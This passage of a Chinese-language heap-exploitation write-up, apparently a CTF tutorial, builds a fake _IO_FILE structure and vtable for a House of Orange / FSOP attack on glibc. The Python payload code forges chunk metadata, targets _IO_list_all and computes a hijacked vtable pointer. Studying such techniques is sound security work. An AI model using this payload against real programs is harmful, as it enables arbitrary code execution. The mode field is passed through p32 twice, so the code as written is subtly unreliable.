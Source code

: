 ![](https://static.hack1s.fun/images/2021/11/06/image-20211106221829226.png)

这里写到的`fp->mode <=0`并且`fp-> _IO_write_ptr > fp-> _IO_write_base`

那么我们对应的设置一下这些值

在`wirte_end`及之后的内容直到`mode`都是对我们没用的数据，直接先填 0

这部分数据长度从`0x30`到`0xc0`，用`p64(0)*18`来填充

```
payload = b"Y"*0x10

flags = b"Y"*0x8

fake_size = p64(0x61)
fd = p64(0)
bk = p64(libc.sym._IO_list_all - 0x10)
write_base = p64(1)
write_ptr = p64(2)
mode = p32(0)

payload = payload + flags
payload = payload + fake_size
payload = payload + fd
payload = payload + bk
payload = payload + write_base
payload = payload + write_ptr         
payload = payload + p64(0)*18
payload = payload + p32(mode) + p32(0) + p64(0)*2

```

到这里为止，后面还有一部分没有用到的空间，是`_IO_FILE`结构中最后的`unused`部分有 20 个字节

我们也全部用 0 填充

以上内容就构造完毕了`_IO_FILE`结构，但是关键的`vtable`指针还没有修改

![](https://static.hack1s.fun/images/2021/11/07/image-20211107162106998.png)

要伪造的 vtable 本身只是填一个任意的我们可以控制的区域的地址就可以

为了节省一些空间，我们让这个指针指回到伪造的`_IO_FILE`中

那么计算一下 vtable 的值，从 heap 开始的位置，首先加上是`0x20`大小的一个 small chunk

加上`0xd8`大小的整个伪造的`_IO_FILE`结构

减去重合的 8 字节

最后是减去 overflow 函数的地址偏移 24 即 0x18

修改一下之前 payload 的最后一部分

```
vtable = heap + 0x20 + 0xd8 - 0x8 - 0x18

payload = payload + p32(mode) + p32(0) + p64(0) + p64(overflow)
payload = payload + p64(vtable)

```

